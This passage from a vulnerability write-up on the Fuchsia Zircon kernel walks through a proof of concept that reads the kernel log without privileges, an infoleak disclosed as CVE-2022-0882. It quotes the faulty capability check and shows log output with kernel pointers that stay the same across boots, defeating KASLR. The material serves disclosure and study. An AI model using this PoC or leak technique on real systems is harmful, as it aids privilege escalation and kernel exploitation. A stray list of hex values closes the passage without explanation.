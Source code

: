 ```c
zx_handle_t root_resource; // global var initialized by 0

int main(int argc, const char** argv)
{
  zx_status_t status;
  zx_handle_t debuglog;

  status = zx_debuglog_create(root_resource, ZX_LOG_FLAG_READABLE, &debuglog);
  if (status != ZX_OK) {
    printf("[-] can't create debuglog, no way\n");
    return 1;
  }
```

And this code worked! I managed to read the Zircon kernel log without the required capabilities and without the `ZX_RSRC_KIND_ROOT` resource. But why? I was amazed and found the Zircon code responsible for handling this syscall. Here's what I found:

```c
zx_status_t sys_debuglog_create(zx_handle_t rsrc, uint32_t options, user_out_handle* out) {
  LTRACEF("options 0x%x\n", options);

  // TODO(fxbug.dev/32044) Require a non-INVALID handle.
  if (rsrc != ZX_HANDLE_INVALID) {
    // TODO(fxbug.dev/30918): finer grained validation
    zx_status_t status = validate_resource(rsrc, ZX_RSRC_KIND_ROOT);
    if (status != ZX_OK)
      return status;
  }
```

A hilarious security check indeed! The Fuchsia bug report system for the issues 32044 and 30918 gave `access denied`. So I filed a [security bug](https://bugs.fuchsia.dev/p/fuchsia/issues/detail?id=94740) describing that `sys_debuglog_create()` has an improper capability check leading to a kernel infoleak. By the way, this issue tracker asked for the info in plain text, but by default it renders the report in Markdown (that's weird, click the `Markdown` button to disable this behavior).

The Fuchsia maintainers approved this issue and requested a [CVE-2022-0882](https://nvd.nist.gov/vuln/detail/CVE-2022-0882).

# Zircon KASLR: nothing to bypass

As reading the Fuchsia kernel log was not a problem any more, I extracted some kernel pointers from it to bypass Zircon KASLR. I was amazed for a second time and laughed again.

> Despite KASLR, the kernel pointers were the same on every Fuchsia boot!

See the examples of identical log output. Boot #1:
```
[0.197] 00000:01029> INIT: cpu 0, calling hook 0xffffffff00263f20 (pmm_boot_memory) at level 0xdffff, flags 0x1
[0.197] 00000:01029> Free memory after kernel init: 8424374272 bytes.
[0.197] 00000:01029> INIT: cpu 0, calling hook 0xffffffff00114040 (kernel_shell) at level 0xe0000, flags 0x1
[0.197] 00000:01029> INIT: cpu 0, calling hook 0xffffffff0029e300 (userboot) at level 0xe0000, flags 0x1
[0.200] 00000:01029> userboot: ramdisk       0x18c5000 @ 0xffffff8003bdd000
[0.201] 00000:01029> userboot: userboot rodata       0 @ [0x2ca730e3000,0x2ca730e9000)
[0.201] 00000:01029> userboot: userboot code    0x6000 @ [0x2ca730e9000,0x2ca73100000)
[0.201] 00000:01029> userboot: vdso/next rodata       0 @ [0x2ca73100000,0x2ca73108000)
```


[0]: 0xffdffe64ffdffd24
[1]: 0xffdcb5a4ffe00454
[2]: 0xffdffea4ffdc7824
[3]: 0xffd604c4ffd519f4